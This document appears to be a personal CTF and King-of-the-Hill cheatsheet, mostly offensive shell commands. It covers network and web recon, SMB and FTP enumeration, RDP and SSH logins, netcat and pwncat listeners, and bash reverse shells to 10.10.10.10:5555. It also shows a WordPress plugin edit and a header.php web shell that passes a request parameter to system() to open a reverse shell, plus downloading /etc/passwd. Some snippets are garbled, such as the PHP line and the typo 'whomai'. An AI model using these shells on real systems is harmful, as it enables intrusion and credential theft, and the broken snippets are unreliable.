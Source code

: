 <h1>PFORM - CTF / KOTH - Cheatsheet</h1>

<h2>Change IP on all scripts in a folder</h2>

If you like me have a folders with reverse-shells and scripts for your CTF / Koth needs,

and your IP changes just before the game starts, and no script have the correct ip.

<b>pform@attacker~: </b><code>cd script-folder/</code>

<b>pform@attacker~script-folder/:<code> grep -rl old-ip * | xargs sed -i 's/old-ip/new-ip/g'</code>


<h2>RECON</h2> 

<b>pform@attacker~: </b><code>rustscan -A IP</code>

<b>pform@attacker~: </b><code>sudo nmap -Pn -sV -sC -oN nmap.log IP</code>

<b>pform@attacker~: </b><code>gobuster -dir -e php,html,htm,txt,log,conf,flag -u http://IP -w /usr/share/wordlists/directory-list-2.3-medium.txt</code>

<b>pform@attacker~: </b><code>nikto -Display 1234EP -o report.html -Format htm -Tuning 123bde -host IP</code>

<h2>SMB</h2>

<b>pform@attacker~: </b><code>smbmap -H IP</code>

<b>pform@attacker~: </b><code>smbclient -L \\\\IP</code>

<b>pform@attacker~: </b><code>smbclient -L \\\\IP\\C$ -U guest -W WORKGROUP</code>


<h2>FTP</h2>

Is the host vuln to anonymous login?

<b>pform@attacker~: </b><code>ftp IP</code>

<b>pform@attacker~: </b>Login: <code>anonymous</code> Password: <code>anonymous</code>

Dont forget to check for hidden directory´s  somethimes they hide them in plain sight like this:

<b>pform@attacker~: </b><code>ls -la</code>

drwxr-xr-x pform pform 0069 Dec 32 00:00 .

drwxr-xr-x pform pform 0069 Dec 32 20:00 ..

drwxr-xr-x pform pform 0069 Dec 32 00:00 ... <b>     < - - - - - - - - - - - - ( 3 dots )</b>

-rw-r--r-x pform pform 0069 Dec 32 00:00 random-stuff.txt


<h2>RDP</h2>

I think remmina is slow, compared to xfreerdp. 

<b>+clipboard</b> makes it possible to copy from <b>attacker machine</b> to <b>victim machine</b>

<b>pform@attacker~: </b><code>xfreerdp +clipboard +window-drag /u:username /p:password /v:IP</code>

<h2>SSH</h2>

<b>pform@attacker~: </b><code>ssh user@IP -p 22</code>

<b>pform@attacker~: </b><code>ssh -i id_rsa user@IP -p 22</code>

<h1>Listners</1>

<h2>Netcat</h2>

<b>pform@attacker~: </b><code>nc -lnvp 5555</code>

<h2>pwncat</h2> 
<code>git clone https://github.com/calebstewart/pwncat.git; cd pwncat</code>

<b>pform@attacker~: </b><code>pwncat -l -p 5555</code>
  
I prefer pwncat as you can just press<b>"CTRL+D"</b> and download and upload files like this:

<b>pform@local~: </b><code>download /etc/passwd</code>

<b>pform@local~: </b><code>upload ~/super-ninja-scripts/hightech-privesc-0day.py</code>

Then Press <b>"CTRL+D"</b> again to return to the reverse-shell.

<h1>Revers-Shell</h1>

<h2>Bash</h2>

/bin/bash -i >& /dev/tcp/10.10.10.10/5555

/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.10.10/5555 0>&1'

<h2>Wordpress example</h2>

After logging in to the admin panel open the Plugin editor, in the bottom of a plugin.

Add <code>/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.10.10/5555 0>&1'</code>

---

<b>Edit "header.php" </b>

Under php tag

<code>echo system($ REQUESTS['cmd']);</code>

change request metod by left click

open upp burp and run command in the bottom of the page:

<code>cmd=whomai</code>

<code>cmd=/bin/bash -i >& /dev/tcp/10.10.10.10/5555 0>&1</code>


